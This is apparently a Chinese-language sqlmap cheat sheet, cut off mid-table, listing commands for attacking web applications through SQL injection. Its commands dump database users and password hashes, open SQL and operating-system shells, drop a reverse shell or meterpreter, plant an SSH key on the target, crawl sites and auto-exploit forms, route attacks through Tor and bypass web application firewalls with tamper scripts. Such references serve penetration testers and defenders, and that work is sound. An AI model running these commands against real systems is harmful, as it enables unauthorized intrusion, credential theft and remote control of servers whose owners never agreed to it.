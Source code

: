  #### 使用
	sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
	-p 指定注入点，注入参数
	--user-agent 指定user-agent
	--random-agent 随机user-agent
	--threads 线程
	--risk 风险等级 随着等级的增多，增加格式的测试语句
	--level 随着level变多，payload增加，运行时间增加，还会测试请求头的注入
	--eta 显示每个输出的预计完成时间
	--dbms 指定当前数据库类型
	--os 指定系统版本
	--banner 获取数据库管理系统的标识
	--is-dba 测试是否为dba权限
	--dbs 列出全部数据库
	--current-user 列出当前用户
	加载请求文件使用手机useragent
	sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
 #### 自定义注入点UserAgent/Header/Referer/Cookie
  	用*号指定注入点
	python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
 #### 二阶注入
  	python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
	sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
 #### shell
	SQL Shell
	python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

	Simple Shell
	python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

	Dropping a reverse-shell / meterpreter
	python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

	SSH Shell by dropping an SSH key
	python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
 #### 使用 SQLmap 自动爬取网站和利用
	sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

	--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
	--crawl = how deep you want to crawl a site
	--forms = Parse and test forms
 #### 将 TOR 与 SQLmap 一起使用
	sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
 #### 代理
	sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
 #### 使用cookie 和代理
	sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
 #### 使用后缀篡改注入
	python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
 #### 使用tamper bypass waf
| Tamper | 描述 |
| --- | --- |
|0x2char.py | 用CONCAT(CHAR(),…) 替换每个 (MySQL) 0x<hex> 编码字符串 |